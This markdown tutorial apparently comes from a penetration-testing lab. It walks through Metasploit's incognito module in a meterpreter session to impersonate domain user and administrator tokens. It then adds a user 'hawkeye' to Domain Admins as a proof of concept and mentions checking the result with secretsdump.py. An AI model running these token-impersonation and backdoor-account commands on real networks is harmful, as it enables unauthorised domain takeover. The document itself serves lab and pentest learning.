 ## **Dumping Tokens Using Metasploit**

First of all make sure you have a `meterpreter` shell on our target system

```powershell
meterpreter > load incognito
meterpreter > list_tokens -u
# impersonate_token domain\\user
meterpreter > impersonate_token marvel\\fcastle
```


#### **Example**


![b5tFh1b.png](https://i.imgur.com/b5tFh1b.png)
![](https://i.imgur.com/b5tFh1b.png)


#### **Revert Msfconsole Shell**

This will revert the `meterpreter` session to its original state

```powershell
meterpreter > revself
```


**Since we are able to dump user fcastle token and impersonate it, let do the same for the local admin, first of all switch user from fcastle to the local admin.**



![](https://i.imgur.com/lPsa2e1.png)

```powershell
meterpreter > list_tokens -u
# impersonate_token domain\\user
meterpreter > impersonate_token marvel\\administrator
```



#### **Example**


![](https://i.imgur.com/hc1UK5y.png)



## **Proof Of Concept**

We can add a proof of concept to our report by creating a new user, called **hawkeye** with password as **Password1@**.

```powershell
meterpreter > shell

# adding our user hawkeye
C:\Windows\system32>net user /add hawkeye Password1@ /domain
C:\Windows\system32>net group "Domain Admins" hawkeye /ADD /DOMAIN
```

#### **Example**


![](https://i.imgur.com/B2iYLvs.png)






**_Then using secretsdump.py we can see that user hawkeye exists (Make sure to point the IP directly to the domain controller)_**

![](https://i.imgur.com/JUnXMzk.jpg)


